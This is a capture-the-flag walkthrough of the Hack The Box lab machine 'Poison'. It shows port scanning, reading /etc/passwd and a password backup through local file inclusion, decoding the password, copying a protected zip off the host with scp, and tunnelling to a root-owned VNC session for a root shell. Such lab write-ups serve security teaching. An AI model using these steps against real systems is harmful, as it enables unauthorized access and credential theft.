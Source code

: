 # Index
1. [Enumeration](#enumeration)
	<br>
	1.1 [Nmap](#nmap)
	</br>
	1.2	[Web Discovery](#webdiscovery)
	
2. [Privesc](#privesc)

#### Tags
<details markdown='1'>
<summary>Click to get a hint</summary> 
<ul>
	<li>LFI</li>
	<li>Password reuse</li>
	<li>Port forwarding</li>
	<li>VNC</li>
</ul>
</details>

### Enumeration
**IP Address** 10.10.10.84
#### Nmap
First step, as in any other machine, is running an Nmap.
I'm used to running in first place *Nmap -p- {ip}* so it does a scan through all 65535 ports of the machine.
```shell
nmap -p- 10.10.10.84                                   

Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-14 11:32 EDT
Nmap scan report for 10.10.10.84
Host is up (0.051s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 344.93 seconds
```
Once I know there is only two open ports, I like to run a more precise scan only in these ports:

#### WebDiscovery
As the port 80 is open, the first thing to do is visiting the webpage

![Image 1](pictures/poison-01.png)

In this webpage we are able to run some php files. The *listfiles.php* gets all my attention, so let's run it and observe the result.

![Image 2](pictures/poison-02.png)

To my surprise, we can observe a suspicious file called *pwdbackup.txt*. We can also observe that the file route is included in the URL.
First thing that comes to my mind is to try and get the *pwdbackup.txt* including it in the URL.

![Image 3](pictures/poison-03.png)

We get a base64 encoded password. After decoding it 13 times ([Cyberchef](https://gchq.github.io/CyberChef/) may be useful for this) we obtain the password ```Charix!2#4%6&8(0 ``` 

Second thing that comes to me is trying to get the */etc/passwd* file via [LFI](https://cobalt.io/blog/a-pentesters-guide-to-file-inclusion)

![Image 4](pictures/poison-04.png)

So, once we have a user (charix) an a password, it's time to try an ssh connection.

Finally, we are able to get the *user*:

![Image 5](pictures/poison-05.png)

### Privesc

After running *ls* at Charix's *home*, a file called *secret.zip* is discovered. Such file is a password protected file. So, I download it to local via scp:
```bash
scp charix@10.10.10.84:/home/charix/secret.zip .
```
After having this file in my local machine, the first password to try is the one we got before. With this, it is possible to extract the file, but it's not possible to read the content:

![Image 6](pictures/poison-06.png)

So, back at the *poison* machine, after some try and error with different scripts such as [LinPeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) or [suid3num.py](https://github.com/Anon-Exploiter/SUID3NUM), I got a closer look to the running procceses.

The one that really caught my eye is the following *vnc* proccess running as root:

```shell
charix@Poison:~ % ps -aux
USER   PID  %CPU %MEM    VSZ   RSS TT  STAT STARTED     TIME COMMAND
root   529   0.0  0.9  23620  8872 v0- I    23:03    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -g
root   540   0.0  0.7  67220  7064 v0- I    23:03    0:00.02 xterm -geometry 80x24+10+10 -ls -title X Desktop
```
VNC is kind of an RDP for Linux systems. It usually runs on ports 5801 and 5901.
It can be checked with *netstat -an*:

![Image 7](pictures/poison-07.png)

To get a closer look to whats running in that port, I decided to run netcat:
```shell
charix@Poison:~ % nc 127.0.0.1 5901
RFB 003.008
```

By the "RFB" we are able to identify that VNC is running.
As vncviewer doesn´t exist in the poison machine, the option I had left is to perform an ssh tunnel, so the port 5901 would run in my machine.

```bash
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```
When the ssh is performed, is it possible to check if it's working by running *netstat -an* in the attacking machine. If it's running, a port 5901 should appear LISTENING.

Once that's working, its time to try and connect to the vncviewer, but it asks for a password:

```shell
vncviewer 127.0.0.1:5901                 
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password: 
Authentication failed
```

After revieweng the manual for vncviewer, I noticed that it is possible to indicate a file as a password. So I remembered we have a *secret* file that hasn´t been used yet.
After performing the following command:

```bash
vncviewer -passwd secret 127.0.0.1:5901  
```

Access as root is granted to a graphical interface that has an opened shell:

![Image 8](pictures/poison-08.png)

Please, feel free to [contact](https://twitter.com/sergioframi)  me if you want to ask or share anything about this machine. Thanks a lot! 
